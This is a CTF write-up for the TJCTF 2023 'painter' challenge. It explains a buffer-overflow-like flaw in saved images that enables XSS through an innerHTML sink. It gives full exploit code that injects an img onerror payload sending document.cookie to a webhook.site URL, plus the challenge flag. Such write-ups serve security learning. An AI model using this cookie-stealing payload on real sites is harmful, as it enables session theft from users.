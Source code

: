# TJCTF 2023 - Pwn - painter

First, there is the code that might be able to do XSS.
But the length of name must be less than 8, so it is not possible by itself.

```js
const setName = () => {
    const name = UTF8ToString(_getName());
    document.getElementById('name-h1').innerHTML = name;
}
```

On the other hand, the absence of checks allows us to save images that contain longer data than they should be.
If such images are loaded, a problem (possibly like BOF) occurs.

After trying various inputs, I found that somehow part of the image was written into the name.
This makes XSS possible.

The code to create an exploit image is below:

```js
const N = 512;
const n = 12288 + N;
const k = new Uint8Array(n).fill(0);

for(let j = 0; j < 3; ++j) {
    for(let i = 0; i < 32 * 32; ++i) {
        k.set([0x61 + i, 0x61 + i, 0x61 + i, 0x61 + i], i * 4 + (32*32*4)*j);
    }
}

for(let i = 0; i < 32 * 32; ++i) {
    k.set([0x31, 0x41 + i, 0x30, 0], i * 4 + (32*32*4));
}
k.set(Array.from("aaaa", c => c.charCodeAt(0)), (32*32*4));

k.set(Array.from("<img src='' onerror='if(!window.p){window.p=1; navigator.sendBeacon(`https://webhook.site/xxxxxxxx/${document.cookie}`)}'>", c => c.charCodeAt(0)));

const o = new Uint8Array(N);
o.set([8, 0x10, 1, 0], 0);
k.set(o, 12288);

fetch("https://painter.tjc.tf/save", {
    "headers": {
        "content-type": "application/json",
    },
    "body": JSON.stringify({ name: "test", img: btoa(String.fromCharCode(...k)) }),
    "method": "POST",
});
```

Since `setName` seems to be called many times, I created a guard so that my code would be executed only once.

Flag: `tjctf{m0n4_l1s4_1s_0verr4t3d_e2187c9a}`

